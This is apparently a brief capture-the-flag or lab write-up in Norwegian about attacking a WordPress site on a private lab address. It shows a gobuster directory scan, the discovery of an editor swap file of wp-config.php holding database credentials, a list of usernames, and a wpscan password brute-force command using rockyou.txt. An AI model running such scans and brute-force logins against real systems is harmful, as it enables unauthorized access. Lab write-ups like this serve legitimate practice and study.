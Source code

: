 
Fant første flagg i `http://10.10.110.100:65000/robots.txt`

Ser at det ligger en `Disallow: .*?.swp` i `http://10.10.110.100:65000/wordpress/robots.txt`

```sh
gobuster dir -u http://10.10.110.100:65000/wordpress -w /usr/share/wordlists/SecLists/Discovery/Web-Content/quickhits.txt -k -r
```

Finner filen `.wp-config.php.swp`

Den inneholder DB creds.


Prøver å brute force login til WP
```
shaun
kevin
balthazar
aj
nathan
```

```sh
wpscan --url http://10.10.110.100:65000/wordpress/ -U Users.txt -P /usr/share/wordlists/rockyou.txt
```

